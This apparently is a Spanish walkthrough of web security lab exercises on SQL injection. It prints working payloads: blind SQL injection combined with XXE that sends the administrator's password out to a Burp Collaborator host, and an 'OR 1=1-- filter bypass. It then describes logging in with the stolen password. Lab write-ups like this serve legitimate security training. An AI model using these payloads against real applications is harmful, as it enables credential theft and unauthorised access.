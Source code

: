 2. Modifique la cookie "TrackingId" y cámbiela a una carga útil que active una interacción con el servidor de Collaborator. Por ejemplo, puede combinar la inyección SQL con técnicas básicas de XXE como se indica a continuación: 

``TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--. 

La solución descrita aquí basta para activar una búsqueda de DNS y, por lo tanto, resolver el laboratorio. En una situación real, usaría el cliente Burp Collaborator para verificar que su carga útil haya activado una búsqueda de DNS y, potencialmente, explotar este comportamiento para extraer datos confidenciales de la aplicación. Analizaremos esta técnica en el próximo laboratorio.

## Blind SQL injection with out-of-band data exfiltration

1. Visite la página principal de la tienda y use Burp Suite Professional para interceptar y modificar la solicitud que contiene la cookie "TrackingId". 

2. Vaya al menú de Burp e inicie el cliente Burp Collaborator. 

3. Haga clic en "Copiar al portapapeles" para copiar una carga útil única de Burp Collaborator en su portapapeles. Deje abierta la ventana del cliente Burp Collaborator. 

4. Modifique la cookie "TrackingId" para convertirla en una carga útil que filtre la contraseña del administrador al interactuar con el servidor Collaborator. Por ejemplo, puede combinar la inyección SQL con técnicas XXE básicas de la siguiente manera: 

``TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual-- 

5. Regrese a la ventana del cliente de Burp Collaborator y haga clic en "Sondear ahora". Si no ve ninguna interacción, espere unos segundos y vuelva a intentarlo, ya que la consulta del servidor se ejecuta de forma asíncrona. 

6. Debería ver algunas interacciones DNS y HTTP iniciadas por la aplicación como resultado de su carga útil. La contraseña del usuario "administrador" debería aparecer en el subdominio de la interacción y puede verla en el cliente Burp Collaborator. Para las interacciones DNS, el nombre de dominio completo buscado se muestra en la pestaña Descripción. Para las interacciones HTTP, el nombre de dominio completo se muestra en el encabezado Host de la pestaña Solicitud a Colaborador. 

7. En su navegador, haga clic en "Mi cuenta" para abrir la página de inicio de sesión. Use la contraseña para iniciar sesión como usuario "administrador".


## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

1. Use Burp Suite para interceptar y modificar la solicitud que establece el filtro de categoría de producto. 
2. Modifique el parámetro ``category``, asignándole el valor ``'+OR+1=1--``. 

3. Envíe la solicitud y verifique que la respuesta ahora contenga elementos adicionales.

## Lab: SQL injection vulnerability allowing login bypass
